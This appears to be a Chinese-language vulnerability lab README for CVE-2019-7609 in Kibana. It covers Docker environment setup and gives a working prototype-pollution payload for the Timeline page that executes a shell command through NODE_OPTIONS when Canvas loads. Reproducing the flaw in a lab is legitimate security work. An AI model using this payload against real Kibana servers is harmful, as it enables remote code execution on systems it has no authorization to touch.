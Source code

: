 # Kibana 原型链污染导致任意代码执行漏洞 (CVE-2019-7609)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.15到6.6.1之间的版本中存在一处原型链污染漏洞，利用这个漏洞我们可以在目标服务器上执行任意JavaScript代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## 漏洞环境

启动环境前，需要先在Docker主机上执行如下命令，修改`vm.max_map_count`配置为262144：

```
sysctl -w vm.max_map_count=262144
```

之后，执行如下命令启动Kibana 6.5.4和Elasticsearch 6.8.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana页面。

## 漏洞复现

原型链污染发生在“Timeline”页面，我们填入如下Payload：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

成功后，再访问“Canvas”页面触发命令`/bin/touch /tmp/success`，可见`/tmp/success`已成功创建：

![](2.png)